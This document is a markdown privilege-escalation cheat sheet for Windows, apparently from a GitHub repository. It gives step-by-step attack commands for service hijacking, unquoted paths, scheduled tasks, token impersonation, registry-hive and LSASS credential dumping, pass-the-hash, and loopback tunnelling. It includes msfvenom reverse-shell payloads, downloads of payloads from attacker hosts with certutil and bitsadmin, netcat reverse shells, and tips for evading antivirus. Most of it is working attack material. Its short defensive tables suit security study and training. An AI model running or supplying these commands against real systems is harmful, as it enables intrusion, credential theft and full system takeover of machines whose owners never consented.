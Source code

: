 #####################################
Windows Privilege Escalation Examples
#####################################

<details>
<summary>Weak Service Permissions</summary>
 <br> 
========================
 
In Windows, services running as LocalSystem (highest privilege) with non-default or writable executable paths and weak permissions can be exploited for privilege escalation. This document provides detection, exploitation, and remediation steps.

🔍 1. Enumerate Services Running as LocalSystem with Non-Standard Paths
These services might use custom paths (e.g., C:\Users\Public\svc.exe) instead of the protected default (C:\Windows\System32).

✅ PowerShell:

    Get-WmiObject Win32_Service | Where-Object {
    $_.StartName -eq "LocalSystem" -and
    $_.PathName -notlike "C:\Windows\System32*"
    } | Select-Object Name, StartName, PathName

    
✅ WMIC:
cmd

    wmic service get name,startname,pathname | findstr /i "LocalSystem" | findstr /v /i "C:\\Windows\\System32"
<img width="1016" height="237" alt="image" src="https://github.com/user-attachments/assets/b58cd5a7-6d2d-4bba-b200-baa7cc66faee" />
🔐 2. Check Permissions on Service Configuration
Use AccessChk to determine whether a user can start, stop, configure, or modify a service.

✅ Command:
cmd

    .\accesschk64.exe /accepteula -uwcqv user servicename
Look for permissions like:

Permission	Meaning
SERVICE_ALL_ACCESS	Full control
SERVICE_CHANGE_CONFIG	Can change service binary path
WRITE_DAC / WRITE_OWNER	Can escalate to full control
GENERIC_WRITE / GENERIC_ALL	Equivalent to full control
<img width="939" height="407" alt="image" src="https://github.com/user-attachments/assets/e4ea7ead-9a28-4752-9e52-74c28bc09e8b" />

📂 3. Identify Writable Service Executables
✅ Export Executable Paths:

    for /f "tokens=2 delims='='" %a in ('wmic service list full ^| find /i "pathname" ^| find /v /i "system32"') do @echo %a >> C:\Windows\Temp\services.txt
✅ If wmic is not available:
cmd

    sc query state= all | findstr "SERVICE_NAME:" >> servicenames.txt
    FOR /F "tokens=2 delims= " %i in (servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
✅ Check Permissions:
cmd

    for /f "delims=" %a in (C:\Windows\Temp\services.txt) do accesschk.exe /accepteula -qv "%a" >> accesschk.txt
Or use icacls/cacls:

    for /f "delims=" %a in (C:\Windows\Temp\services.txt) do icacls "%a" >> icacls.txt
Look for:

Symbol	Meaning
(F)	Full Access
(M)	Modify Access
(W)	Write Access
(WDAC)	Write DACL
(WO)	Write Owner

⚙️ 4. Exploitation Steps
✅ 4.1 Replace the Service Executable
Generate a reverse shell payload (Metasploit):

bash

    msfvenom -p windows/powershell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f exe -o reverse_priv.exe
Host it:

bash

    python3 -m http.server 8999
Transfer to target:

powershell

    wget http://<attacker_ip>:8999/reverse_priv.exe -o reverse_priv.exe
Overwrite service binary:

powershell

    copy reverse_priv.exe "C:\Path\To\Service.exe"
✅ 4.2 Start the Service
c

    sc start <service>
Or:

cmd

    net start <service>
⚡ 5. Writable Service Object Exploitation
✅ Find Writable Service Objects
cmd

    accesschk.exe /accepteula -uwcqv "Authenticated Users" *
✅ Update Service Binary Path
cmd

    sc config <service> binPath= "C:\Path\To\reverse_priv.exe"
Remove dependencies if blocking:

cmd

    sc config <service> depend= ""
Change service start mode to manual:

cmd

    sc config <service> start= demand
Update service to run as SYSTEM:

c

    sc config <service> obj= ".\LocalSystem" password= ""
✅ Start/Stop Service:
cmd

    sc stop <service>
sc start <service>
Or:

cmd

    net stop <service>
    net start <service>
🧪 6. Validate Exploitability
powershell

    Get-WmiObject Win32_Service -Filter "Name='<service>'" |Select-Object Name, DisplayName, StartMode, State, StartName, PathName
<img width="1064" height="161" alt="image" src="https://github.com/user-attachments/assets/6fdbbea7-d56e-4cb4-80a3-4f9016f995c8" />
    
🤖 7. Automated Enumeration
✅ SharpUp
Use SharpUp.exe for automated privilege escalation checks.

cmd

    SharpUp.exe --services
    or: SharpUp.exe audit
 <img width="974" height="482" alt="image" src="https://github.com/user-attachments/assets/b36466e1-923a-4ddb-8188-bcfb99ac4c76" />
   
✅ Summary of Exploit Steps
Step	Description
🔍 1	Find services running as LocalSystem with writable paths
🔐 2	Check if current user can change or control the service
💣 3	Replace binary with malicious payload
▶️ 4	Restart or trigger the service to execute payload
⚡ 5	Get SYSTEM-level shell

🔐 Remediation Checklist
✅ Always install services in C:\Windows\System32

✅ Set tight permissions using sc sdset or GPO

✅ Regularly audit services using:

 Sysinternals AccessChk

 PowerUp / SharpUp

✅ Enable AppLocker / Software Restriction Policies

✅ Monitor service creation/modification with Sysmon

</details>

<details>
<summary>SeBackupPrivilege</summary>
 <br> 
 ============================
 
🔑 What is SeBackupPrivilege?
SeBackupPrivilege is a special Windows permission intended for backup operations.

It allows a user to bypass file ACLs and read any file on the system — even highly sensitive ones like:

C:\Windows\System32\config\SAM

C:\Windows\System32\config\SYSTEM

Attackers can abuse this to extract password hashes and escalate privileges.

🔍 Step 1: Check for SeBackupPrivilege
After getting access (e.g., through Evil-WinRM), check assigned privileges:

powershell

    whoami /priv
   <img width="923" height="339" alt="image" src="https://github.com/user-attachments/assets/18ee9197-db13-4739-b7cf-69ffa64bdf96" />

✅ Look for SeBackupPrivilege in the output.

📁 Step 2: Dump Registry Hives
Create a Temp Directory and Dump SAM & SYSTEM
powershell

    cd C:\
    mkdir Temp
    reg save hklm\sam C:\Temp\sam
    reg save hklm\system C:\Temp\system
 <img width="766" height="416" alt="image" src="https://github.com/user-attachments/assets/5f011469-d495-42eb-8b76-fe2af58a191e" />
   
📥 Step 3: Transfer Files to Kali
Use Evil-WinRM's built-in download command:

powershell

    cd Temp
    download sam
    download system
 <img width="563" height="298" alt="image" src="https://github.com/user-attachments/assets/178f145f-cb49-4cb4-9f82-6e1e424d6658" />
   
🔓 Step 4: Extract Hashes on Kali
🐍 Option 1: Using PyPyKatz
bash

    pypykatz registry --sam sam system
✅ This will output NTLM hashes like:
<img width="1021" height="296" alt="image" src="https://github.com/user-attachments/assets/cf46c206-5e73-4c69-ba4b-3ab653fe5069" />


Administrator:500:aad3b435b51404eeaad3b435b51404ee:5e0375cf8e440aa58a809d57edd78996::
🧰 Option 2: Using Impacket’s secretsdump.py

    cd ~/impacket
    python3 -m venv impacket-env
    source impacket-env/bin/activate
    secretsdump.py -system /home/kali/system -sam /home/kali/sam LOCAL
 <img width="1056" height="320" alt="image" src="https://github.com/user-attachments/assets/9fa97eb3-93ba-496e-9418-ecb08ed1bb24" />
   
🚪 Step 5: Lateral Movement / Privilege Escalation
Use the extracted NTLM hash to pivot or escalate.

🛠️ Option 1: Evil-WinRM (Pass-the-Hash)

evil-winrm -i <target-ip> -u <domain\user> -H <NTLM-hash>
Example:

    evil-winrm -i 192.168.216.130 -u corp\administrator -H 5e0375cf8e440aa58a809d57edd78996
🛠️ Option 2: CrackMapExec

    crackmapexec smb <target-ip> -u Administrator -H <NTLM-hash>
🛠️ Option 3: PsExec (from Impacket)

    psexec.py Administrator@<target-ip> -hashes :<NTLM-hash>
🧑‍💼 Bonus: Enumerate Users (Optional)
If you need to look up domain users on a DC:

powershell

    Get-ADUser -Filter * | Select-Object Name, SamAccountName
Requires ActiveDirectory module, usually available on domain controllers.

🔚 Summary
Step	Action
1️⃣	Check if user has SeBackupPrivilege
2️⃣	Dump SAM and SYSTEM hives using reg save
3️⃣	Download files using evil-winrm
4️⃣	Extract hashes with pypykatz or secretsdump.py
5️⃣	Reuse hashes with Evil-WinRM, CrackMapExec, or PsExec for lateral movement or privilege escalation

 </details>

 <details>
<summary>SeImpersonatePrivilege</summary>
 <br>
  =====================
  
🔍 What is SeImpersonatePrivilege?
The SeImpersonatePrivilege is a powerful permission in Windows that allows a user to impersonate the security context of another user. This is typically used by services to act on behalf of a client.

✅ If a low-privileged user account has SeImpersonatePrivilege, it can often be exploited to escalate to SYSTEM or Administrator using various impersonation attacks.

🧠 Why is it dangerous?
This privilege allows attackers to impersonate privileged tokens (like SYSTEM or admin) when certain services or RPC endpoints allow it.

It is commonly exploited in local privilege escalation (LPE) scenarios.

🔍 Identifying SeImpersonatePrivilege
Run this on the target system (PowerShell):

powershell

    whoami /priv | findstr SeImpersonatePrivilege
If you see it as Enabled, you can likely proceed with known exploits.
<img width="1041" height="362" alt="image" src="https://github.com/user-attachments/assets/aeb520d9-af88-4719-b8cb-4707dcabfedb" />

⚙️ Exploitation Tools
🔧 1. PrintSpoofer
PrintSpoofer abuses the SeImpersonatePrivilege via the Print Spooler service to impersonate SYSTEM.

🧪 Steps:
Upload the executable to the target system:

powershell

    upload PrintSpoofer.exe
<img width="1064" height="178" alt="image" src="https://github.com/user-attachments/assets/7d0e6a51-a786-4ae1-85a7-c54c65220d4c" />
    
Run PrintSpoofer to add your user to the Administrators group:

powershell

    .\PrintSpoofer.exe -i -c "net localgroup Administrators <user-name> /add"
-i → impersonate token

-c → command to execute as SYSTEM
<img width="1025" height="77" alt="image" src="https://github.com/user-attachments/assets/fed9f6a6-9e19-4292-9e6d-03c5d0059f91" />

✅ Your user is now part of the Administrators group.

🔧 2. GodPotato
GodPotato is a modern implementation of the RottenPotatoNG/JuicyPotato concept, abusing COM/RPC misconfigurations and SeImpersonate privilege to execute commands as SYSTEM.

🧪 Steps:
Upload the GodPotato executable:

powershell

    upload GodPotato-NET4.exe
Execute the command to add your user to the Administrators group:

powershell

.\GodPotato-NET4.exe -cmd "cmd /c net localgroup Administrators r.andrews /add"
✅ Once executed successfully, the user is elevated.
<img width="1052" height="574" alt="image" src="https://github.com/user-attachments/assets/ef72d9f6-4d43-45c8-8f50-7cca73d7e933" />

✅ Confirming Privilege Escalation
You can now verify that your user has admin access:

powershell

whoami /groups
net user <user-name>
Or list protected directories:

powershell

dir C:\Users\Administrator\
📌 Notes:
These exploits work only locally and require SeImpersonatePrivilege.

These tools may trigger EDR/AV, so obfuscation or alternative binaries might be needed.

Not all Windows builds are vulnerable; ensure the Print Spooler or vulnerable COM servers are available.

🧰 Alternative Tools & Techniques
Tool	Description
JuicyPotato	Legacy COM exploit, works only on older versions
RoguePotato	Bypasses newer Windows protections
PrintSpoofer	Exploits Print Spooler to impersonate SYSTEM
GodPotato	Updated COM exploit using .NET

📚 References
https://github.com/itm4n/PrintSpoofer

https://github.com/BeichenDream/GodPotato

  </details>
  
<details>
<summary>Unquoted Service Pathss</summary>
 <br> 

================================

🔧 Windows Privilege Escalation – Unquoted Service Path Exploit
🧠 Concept Summary
When a Windows service is registered with an unquoted executable path and contains spaces, Windows attempts to locate the executable by parsing the path from left to right, trying each path fragment with .exe appended. If an attacker can write to any of these directories, they can drop a malicious executable and gain privilege escalation when the service is started.

📌 Prerequisites
Attacker has low-privileged shell (RDP, reverse shell, etc.)

One or more services have unquoted paths

Attacker has write permissions to any folder in the service's executable path

🔍 Step 1: Enumeration
✅ Using SharpUp (automated):
powershell

    .\SharpUp.exe auto
✅ Using winPEAS (automated):
powershell

    .\winPEASany.exe all
<img width="1063" height="472" alt="image" src="https://github.com/user-attachments/assets/87a483f6-856f-44ec-9811-6222e88f6b3e" />

✅ Manually with sc:
powershell

    sc qc <ServiceName>
# Example:
sc qc unquotedsvc
Look for output like:

<img width="1039" height="338" alt="image" src="https://github.com/user-attachments/assets/ffd807da-a68d-4d6b-910a-7959ebdfa778" />


BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\service.exe
⚠️ Notice the path is unquoted and contains spaces.

✅ Find all unquoted services in one command:
powershell

wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
🔍 Step 2: Check Write Permissions
✅ Use accesschk.exe (from Sysinternals):
powershell

    accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
🔎 Look for:
[RW] BUILTIN\Users
Meaning: any user can write in that directory.
<img width="992" height="159" alt="image" src="https://github.com/user-attachments/assets/0beb539f-c833-41eb-8ed0-882fb1b87533" />

🎯 Step 3: Exploitation
✅ Upload Reverse Shell Payload
powershell

    copy reverse_shell.exe "C:\Program Files\Unquoted Path Service\Common.exe"
⚠️ Name the payload according to where Windows would first look.
For path:
C:\Program Files\Unquoted Path Service\Common Files\service.exe
Windows may try:

C:\Program.exe

C:\Program Files.exe

C:\Program Files\Unquoted.exe

C:\Program Files\Unquoted Path.exe

C:\Program Files\Unquoted Path Service\Common.exe ← ✅ our injection point

Choose the earliest writable location in the path.

📞 Step 4: Start Listener (Kali)
bash

    nc -lvnp 4444
🚀 Step 5: Trigger the Service
powershell

    net start unquotedsvc
🧨 This starts the service and executes your malicious binary.
🎉 You now have a SYSTEM-level shell.
<img width="1064" height="321" alt="image" src="https://github.com/user-attachments/assets/27d6c468-3580-405f-b788-1725775f7e2b" />

🔐 Mitigation (Defender Notes)
Always quote service paths with spaces.

Restrict write permissions on system folders.

Use sc qc, GPO, or PowerShell auditing to periodically scan for misconfigurations.

✅ Checklist Summary
Task	Command/Tool
Enumerate Unquoted Paths	wmic, sc qc, SharpUp, winPEAS
Check Permissions	accesschk.exe
Upload Payload	copy reverse_shell.exe "Path"
Start Listener	nc -lvnp 4444
Start Service	net start <servicename>


</details>
<details>
<summary>Scheduled Task/Job</summary>
 <br> 
 =======================
 
Windows Task Scheduler allows users to schedule programs or scripts to run at specific times or system events. While this is a legitimate administrative feature, it can be abused by attackers for:

Privilege Escalation: If a scheduled task is executed with higher privileges, an attacker can inject or replace the associated executable to gain SYSTEM-level access.

Persistence: Scheduled tasks can ensure malware or shells re-execute after reboot or on a timed interval.

📌 Prerequisites
Low-privileged access to a Windows machine (e.g., via RDP or reverse shell).

Ability to read/write in directories where scheduled tasks point to executables.

OR permissions to create/modify tasks.

🔍 Step 1: Enumerate Scheduled Tasks
powershell

    schtasks /query /fo LIST /v
This lists all scheduled tasks in verbose format, including:

Task Name
Run As User
Executable Path
Schedule
Task State

📌 Look for:

Tasks run as NT AUTHORITY\SYSTEM

Executables located in user-writable paths (e.g., C:\Users\Public\, C:\ProgramData\, etc.)

🔥 Step 2: Create Malicious Executable (Reverse Shell)
Using MSFVenom to generate a reverse shell payload:

bash

    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.3 LPORT=8888 -f exe > shell.exe
Alternatively (⚙️ Alternative Payload Options):

Persistent Payload (Metasploit Meterpreter):

bash

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.3 LPORT=4444 -f exe > meterpreter.exe
Custom EXE (compiled C# or PowerShell script using MSBuild):

Use tools like MSBuild, donut, Nim, or C# executables.

🎯 Step 3: Inject Malicious Executable
Rename Original Executable (optional backup):

powershell

    ren file.exe file.bak
Download your payload to the same location:

powershell

    powershell -c "Invoke-WebRequest http://192.168.1.3/shell.exe -OutFile file.exe"
🔁 Alternate download methods:

certutil:

powershell

    certutil -urlcache -split -f http://192.168.1.3/shell.exe file.exe
bitsadmin:

powershell

    bitsadmin /transfer myDownloadJob /download /priority high http://192.168.1.3/shell.exe C:\Temp\file.exe
Confirm file is placed and matches original name.

📞 Step 4: Start Netcat Listener on Attacker Machine
bash

    nc -lvnp 8888
🕒 Step 5: Wait for the Scheduled Task to Trigger
On next trigger (e.g., boot time, time interval), your malicious file.exe is executed.

You receive a SYSTEM shell back.

🛡️ Detection & Monitoring
📌 View Task Scheduler Logs
Enable Event Log:

    Microsoft-Windows-TaskScheduler/Operational
Check via Event Viewer:

arduino

    Event ID 106: Task registered
    Event ID 200: Task started
    Event ID 201: Task completed
📌 Task Query for Investigation
powershell

    schtasks /query /fo LIST /v
📌 File System Monitoring
Use tools like:

🔍 Sysinternals Autoruns: Detects auto-starting entries, including scheduled tasks
Autoruns[https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns]

🔍 Process Explorer: Investigates running processes and their privileges
Process Explorer[https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer]

🔍 TCPView: Monitors live TCP/UDP connections
TCPView[https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview]

🔀 Alternative Exploitation Scenarios
Scenario	Description
Writable Executable Path	Replace task's binary if stored in a writable location (e.g., C:\Users\Public\App.exe)
Create New Task (if user has rights)	Use schtasks /create to create a task running as SYSTEM
DLL Hijacking via Scheduled Task	If the task binary loads unmanaged DLLs unsafely, inject your malicious DLL
Startup Triggers	Abuse AtLogon, OnStartup, Daily triggers for persistence
Via COM objects / PowerShell WMI	Create tasks silently using PowerShell:

powershell

    $action = New-ScheduledTaskAction -Execute "shell.exe"
    $trigger = New-ScheduledTaskTrigger -AtStartup
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "PersistTask" -User "SYSTEM"
🔐 Mitigation Techniques
Defense	Description
Least Privilege Principle	Restrict ability to create/modify tasks to admin users only
Monitor Task Changes	Enable auditing of TaskScheduler logs
Protect File System	Secure executable paths used by tasks
Application Whitelisting	Prevent unauthorized executables (e.g., via AppLocker)
Regular Review	Periodic manual or automated audits of scheduled tasks

✅ Summary
Task	Command/Tool
Enumerate Tasks	schtasks /query /fo LIST /v
Create Payload	msfvenom -p windows/shell_reverse_tcp ...
Upload Payload	powershell wget, certutil, bitsadmin
Setup Listener	nc -lvnp <port>
Detect/Investigate	Event Viewer, Autoruns, Process Explorer, Sysmon
</details>

<details>
<summary>Cleartext Passwords</summary>
 <br> 

===================
After gaining initial access to a Windows system, attackers often look for cleartext or weakly encrypted passwords stored in configuration files, registry keys, or leftover deployment scripts. These credentials can lead to privilege escalation or access to other systems in the network.

🔎 1. Search for Passwords in Files
✅ Search common keywords in common text files:
cmd

    findstr /si password *.txt *.xml *.ini
Searches for password (case-insensitive) in .txt, .xml, and .ini files.

✅ Search all files for keywords like password:
cmd

    findstr /spin "password" *.*
/s: recurse subdirectories
/p: skip binary files
/i: case-insensitive
/n: include line numbers

✅ Search for filenames suggesting stored credentials:

    dir /s *pass* == *cred* == *vnc* == *.config*
Looks for files that likely contain credentials in their names.

🔁 Alternative Filename Searches:

cmd

    dir /s /b *pass*.*  
    dir /s /b *cred*.*  
    dir /s /b *secret*.*  
    dir /s /b *.config  
    dir /s /b *.ini  
🗂️ 2. Check Known Files Containing Credentials
These files are often left over from Windows installations, third-party applications, or RDP/VNC tools:

cmd

    type C:\sysprep.inf
    type C:\sysprep\sysprep.xml
    type C:\unattend.xml
    type %WINDIR%\Panther\Unattend\Unattended.xml
    type %WINDIR%\Panther\Unattended.xml
💡 These often contain Local Admin credentials used during unattended Windows installations.

📂 3. Look for Remote Desktop & VNC Credentials

    dir C:\*vnc.ini /s /b
    dir C:\*ultravnc.ini /s /b
    dir C:\ /s /b | findstr /si *vnc.ini
VNC applications often store saved passwords in these .ini files (sometimes base64 or weak XOR encoding).

🔁 Alternatives:

tightvnc.ini
realvnc.ini
*.rdp files

🧬 4. Search the Windows Registry for Stored Passwords
🔍 Search entire registry hives:

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
🔎 Scans for REG_SZ values containing password.

🔎 Targeted Registry Keys

    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
Look for DefaultPassword, AutoAdminLogon, etc. Can be used to autologin as local admin.

cmd

    reg query "HKLM\SYSTEM\CurrentControlSet\Services\SNMP"
SNMP community strings may be stored here (used for network equipment access).

    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
PuTTY session passwords, IPs, saved usernames – can be decoded from registry manually or using tools like putty-creds.

    reg query "HKLM\SOFTWARE\RealVNC\WinVNC4" /v password
RealVNC stores encrypted passwords here. Can be cracked with tools like vncpwd.

💡 Extra Tip: Use PowerShell for Enhanced File Search
powershell

    Get-ChildItem -Recurse -Include *.xml,*.txt,*.ini -Path C:\ | 
    Select-String -Pattern "password" -SimpleMatch
More efficient and readable than findstr, especially with large directories.

📂 Locations Often Containing Secrets
Path	Description
C:\Users\<user>\AppData\Roaming\	App data, often includes creds
C:\ProgramData\	Global config files
C:\inetpub\wwwroot\	Web apps with DB connection strings
.git directories	May include .env, configs, hardcoded secrets
.rdp files	Remote Desktop files may store credentials
web.config, app.config	.NET config files with plaintext DB strings

🧰 Helpful Tools (Optional)
🛠️ Windows Credential Editor (WCE) – Dumps stored credentials.
🔎 LaZagne – Searches for stored passwords from various apps.
🧪 Mimikatz – Extracts plaintext credentials, tokens, and hashes from memory.
🔐 Secretsdump.py (Impacket) – Dumps credentials remotely via SMB.
🧾 NirSoft tools – GUI tools for saved browser, RDP, Outlook, etc., passwords.

🔐 Detection & Defense
Defense Strategy	Description
File Auditing	Monitor access to sensitive config and .xml, .ini, .rdp files
Registry Auditing	Use Sysmon + Event Logging to monitor suspicious registry access
Credential Scanning Tools	Use tools like truffleHog, gitleaks, or Stealthbits to scan systems/repos for secrets
Least Privilege	Avoid storing passwords in plaintext where possible, and restrict read permissions
Credential Manager	Use Windows Credential Locker or LSA to securely store secrets

✅ Summary Table
Task	Command
Find password in text files	findstr /si password *.txt *.xml *.ini
Search all files for keywords	findstr /spin "password" *.*
Search filenames	dir /s *pass*.*
Check common files	type c:\unattend.xml, etc.
Check registry	reg query HKLM /f password /t REG_SZ /s
PuTTY sessions	reg query HKCU\Software\SimonTatham\PuTTY\Sessions
VNC keys	reg query HKLM\SOFTWARE\RealVNC\WinVNC4 /v password


</details>
<details>
<summary>Passing the Hash</summary>
 <br> 
================
Passing the Hash is a post-exploitation technique that allows an attacker to authenticate using NTLM hashes without knowing the actual plaintext password. Instead of cracking hashes, the attacker reuses them directly to gain remote or local access under another user’s (typically admin) context.

🔍 Step 1: Dump NTLM Password Hashes
To perform PtH, you first need access to NTLM hashes. These can be obtained using credential-dumping tools:

✅ Common Hash Dumping Tools
cmd

    wce32.exe -w
    wce64.exe -w
    fgdump.exe
🧰 Alternative Hash Dumpers:

mimikatz.exe – Powerful credential extraction tool:

powershell

    sekurlsa::logonpasswords
lsass.dmp with secretsdump.py:

bash

    procdump64.exe -ma lsass.exe lsass.dmp
    secretsdump.py -system SYSTEM -security SECURITY -sam SAM LOCAL
LaZagne – Extracts saved creds from many apps

🌐 Passing the Hash – Remote Execution
Once you have an NTLM hash, you can use it to remotely authenticate and execute commands on other systems.

✅ Using pth-winexe
bash

    pth-winexe -U <domain>/<username>%<NTLM_hash> //<target-ip> cmd
🚩 Use Administrator or other privileged accounts for best results.

📌 Target Hostname Instead of IP

Some systems may require NetBIOS name resolution:

bash

    pth-winexe -U <domain>/<username>%<hash> //<hostname> cmd
🛠️ If hostname doesn't resolve, edit /etc/hosts:

php-template

    <target-ip>  <hostname>
✅ Using Environment Variable SMBHASH (Alternate Method)
bash

    export SMBHASH=<LM_hash>:<NTLM_hash>
    pth-winexe -U <domain>/<username>% //<target-ip> cmd
Useful if only one hash type is available (LM or NTLM).

🧠 Tip: If LM hash is not used, you can leave it as 00000000000000000000000000000000

✅ Using impacket's wmiexec.py or psexec.py
bash

    psexec.py -hashes :<NTLM_hash> <domain>/<user>@<ip>
    wmiexec.py -hashes :<NTLM_hash> <domain>/<user>@<ip>
🔁 Use -k or -no-pass flags depending on your setup.

🖥️ Passing the Hash – Local Execution
In some cases, you can use the NTLM hash locally on the same machine where the hash was dumped to escalate privileges.

✅ Using runas (Custom Build for PtH)
⚠️ Windows' built-in runas.exe does not support PtH natively. This method works only with modified or patched versions (e.g., via PowerShell Empire or tools like RunasCs).

cmd

    runas.exe /env /noprofile /user:<username> <hash> "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"
🧠 Note: You may need SeTcbPrivilege or SYSTEM-level context to impersonate other users with hashes locally.

✅ Using PowerShell (via Secure Strings)
powershell

    $secpasswd = ConvertTo-SecureString "<hash>" -AsPlainText -Force
    $mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
    $computer = "<hostname>"
    [System.Diagnostics.Process]::Start("C:\Windows\Temp\nc.exe","<attacker-ip> 53 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
⚠️ Limitation: This works with plaintext passwords, not hashes. For actual PtH, use Invoke-WMIExec or similar.

✅ Using PsExec (with hash)
cmd

    psexec64 \\<hostname> -u <username> -p <hash> -h "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"
Requires PsExec variant that supports PtH (e.g., in Sysinternals, Impacket, or custom fork).

🔁 Alternative Tools & Methods
Tool	Description
Impacket psexec.py / wmiexec.py	Native support for PtH
Evil-WinRM	Can authenticate with hashes, useful for remote shells
Invoke-WMIExec	PowerShell script for remote command execution
CrackMapExec	Swiss army knife for SMB enumeration + PtH
Rubeus	Can pass TGT tickets for lateral movement (Kerberos equivalent)
Smbexec	Wrapper for smbclient to execute using hashes

🧪 Example: Remote Shell via pth-winexe
bash

    pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:<NTLM_hash> //192.168.1.5 cmd
Result: Interactive cmd.exe shell as Administrator on the remote system.

🛡️ Detection & Mitigation
Defense Strategy	Description
🧼 Disable NTLM	Disable or limit NTLM authentication via GPO
🔐 Enforce SMB Signing	Prevents tampering with SMB messages
🔎 Log Event IDs	Monitor logs: 4624, 4648, 4776 for unusual logins
🔍 Monitor Tools	Detect usage of pth-*, psexec, mimikatz, etc.
🔒 Credential Guard	Protects LSASS from being dumped
📊 Use Sysmon	Track process creation + network connections

✅ Summary Cheat Sheet
Purpose	Command
Dump hashes (WCE)	wce64.exe -w
Remote PtH	pth-winexe -U domain/user%hash //ip cmd
Local PtH (PsExec)	psexec64 \\host -u user -p hash -h command
Set SMBHASH	export SMBHASH=LM:NTLM
Remote PtH (Impacket)	psexec.py -hashes :NTLM domain/user@ip


</details>
<details>
<summary>Loopback Services</summary>
 <br> 
=================
Loopback services are applications or services listening on 127.0.0.1 (localhost) only, meaning they cannot be accessed from outside the machine by default. However, if an attacker has local access (e.g., reverse shell, RDP, or low-privileged foothold), these internal services can be proxied or forwarded externally, and then abused — for example, to exploit internal APIs, web interfaces, or escalate privileges.

🔍 Step 1: Identify Loopback Services
Use netstat to check for services bound only to 127.0.0.1 (localhost):

cmd

    netstat -ano | findstr "LISTEN"
🔍 Look for entries like:

nginx

    TCP    127.0.0.1:8000    0.0.0.0:0    LISTENING    1234
Port 8000 is only available on loopback.

PID 1234 may correspond to a high-privilege service like an internal web API.

✅ Identify the service name behind the PID:
cmd

    tasklist /fi "PID eq 1234"
🔁 Step 2: Port Forward the Loopback Service to Attacker
You can remotely expose the local-only service using port forwarding over an SSH tunnel with plink.exe.

✅ Using plink.exe (SSH Reverse Tunnel):
cmd

    plink.exe -l <attacker-username> -pw <attacker-password> <attacker-ip> -R <attacker-port>:127.0.0.1:<target-port>
🔁 Example:
cmd

    plink.exe -l kali -pw P@ssw0rd 192.168.1.100 -R 9000:127.0.0.1:8000
This binds port 9000 on your attacking machine to the victim’s internal port 8000 (localhost). Now you can open http://localhost:9000 on your attacker box to access the internal service.

⚙️ Use Cases
Use Case	Example
🧪 Exploit internal web apps	HTTP admin panels only listening on 127.0.0.1
🔄 Abuse local privileged APIs	Exploit services like Jenkins, Redis, MySQL bound to localhost
📦 Pivot into internal systems	Forward 127.0.0.1:3306 (MySQL) and reuse credentials
🔐 Extract secrets	Vaults, config servers, DB admin panels (e.g., Mongo Express)

🛠️ Alternatives to plink.exe
✅ ssh from Linux (native):
bash

    ssh -R 9000:127.0.0.1:8000 attacker@attacker-ip
✅ chisel (More advanced tunneling over HTTP):
bash

# On attacker:
    chisel server -p 9001 --reverse

# On victim:
    chisel client attacker-ip:9001 R:9000:127.0.0.1:8000
✅ socat (bidirectional proxying):
bash

    socat TCP-LISTEN:9000,fork TCP:127.0.0.1:8000
✅ Invoke-SSHCommand / PSSession (PowerShell Remoting):
For environments with WinRM enabled:

powershell

    Enter-PSSession -ComputerName target -Credential $creds
    New-NetFirewallRule -DisplayName "Allow SSH Tunnel" -Direction Inbound -LocalPort 22 -Protocol TCP -Action Allow
🔐 Detection & Defense
Detection Technique	Description
🔍 Monitor Netstat Output	Look for services bound to 127.0.0.1
🧪 Check for Reverse SSH	Monitor plink.exe, ssh.exe, or chisel.exe processes
📊 Enable Sysmon Logging	Monitor for unusual child process or network connections
🔒 Restrict Loopback Services	Configure services to require authentication even on loopback
🛡️ Egress Filtering	Block outbound SSH, chisel, or tunneling ports
🧰 Use Application Firewalls	Restrict access to internal-only services using local firewalls

🧪 Example Scenario
✅ Find a local service:
pgsql

    127.0.0.1:8888 - PID 4321 - Web API for internal admin panel
✅ Tunnel it to attacker machine:
cmd

    plink.exe -l kali -pw kali 192.168.1.100 -R 8080:127.0.0.1:8888
✅ On Kali (attacker):
bash

    curl http://localhost:8080
💥 You now access a privileged local service remotely, possibly leading to RCE, token theft, or privilege escalation.

✅ Summary Cheat Sheet
Task	Command
List local ports	`netstat -ano
Identify process by PID	tasklist /fi "PID eq <pid>"
Tunnel with plink	plink.exe -R <LPORT>:127.0.0.1:<RPORT>
Tunnel with SSH	ssh -R <LPORT>:127.0.0.1:<RPORT> user@attacker-ip
Tunnel with chisel	chisel client attacker-ip:port R:...


</details>
<details>
<summary>AlwaysInstallElevated</summary>
 <br> 
=====================
 
🔍 Overview
AlwaysInstallElevated is a Windows policy setting that, when enabled, allows non-privileged users to install Microsoft Installer Packages (.msi files) with elevated (SYSTEM) privileges. This feature, originally intended for administrative convenience, becomes a serious security misconfiguration if both user-level and machine-level policies are enabled simultaneously.

⚠️ If both registry keys (HKCU and HKLM) have AlwaysInstallElevated = 1, any user can install MSI files with SYSTEM-level privileges.

🧪 Detection
Before exploitation, you need to check if the target machine is misconfigured:

✅ Check via Registry
powershell

    reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
